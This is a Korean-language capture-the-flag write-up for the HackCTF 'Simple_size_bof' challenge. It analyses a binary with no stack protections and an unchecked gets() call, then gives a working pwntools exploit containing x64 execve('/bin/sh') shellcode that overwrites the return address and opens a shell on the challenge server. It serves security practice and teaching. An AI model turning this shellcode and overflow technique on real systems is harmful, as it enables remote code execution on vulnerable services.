 # x64 Simple_size_BOF

```c
kimdong@ubuntu  ~/Wargame  file Simple_size_bof
Simple_size_bof: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=a18d2a384c8eed43683ec7a072dc350755fc72fb, not stripped
```

```c
kimdong@ubuntu  ~/Wargame  checksec Simple_size_bof
[*] '/home/kimdong/Wargame/Simple_size_bof'
   Arch:     amd64-64-little
   RELRO:    Partial RELRO
   Stack:    No canary found
   NX:       NX disabled
   PIE:      No PIE (0x400000)
   RWX:      Has RWX segments
kimdong@ubuntu  ~/Wargame 
```
이번 바이너리 파일은 64bit로 `Partial RELRO`외에는 적용된 보호기법이 없다.<br>

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+0h] [rbp-6D30h]

  setvbuf(_bss_start, 0LL, 2, 0LL);
  puts(&s);
  printf("buf: %p\n", &v4);
  gets(&v4);
  return 0;
}
```
ida로 분석해보면, 문자열을 출력하고, buf의 주소를 출력해준다.<br>
그후에 `gets`를 통해 사용자의 입력값을 받는데, 검증하지 않아서, bof취약점이 가능할것으로 보인다.<br>

```c
kimdong@ubuntu  ~/Wargame  ./Simple_size_bof
삐빅- 자살방지 문제입니다.
buf: 0x7ffeb6280d50
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```
실행해보면, 예상대로 출력-출력-입력의 순서대로 진행된다.<br>
v4의 주소는 `rbp-6D30`부터 시작한다.<br>
따라서, main문의 return주소를 shellcode로 덮어씌워주면 문제가 해결가능할것으로 보인다.<br>
따라서, dummy의 값은 `0x6D30+0x8(SFP)-0x17(shellcode)` 그리고 shellcode를 입력해주면 될것같다.<br>

---

## Exploit Code
```c
from pwn import *

p = remote("ctf.j0n9hyun.xyz",3005)

p.recvuntil("buf: ")
buf_addr = int(p.recv(14), 16)


payload = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
payload += "A"*(27937)
payload += p64(buf_addr)

p.sendline(payload)

p.interactive()
```


```c
kimdong@ubuntu  ~/Wargame  python size_bof_ex.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3005: Done
[*] Switching to interactive mode

$ ls
flag
main
$ cat flag
HackCTF{}
```

## END !
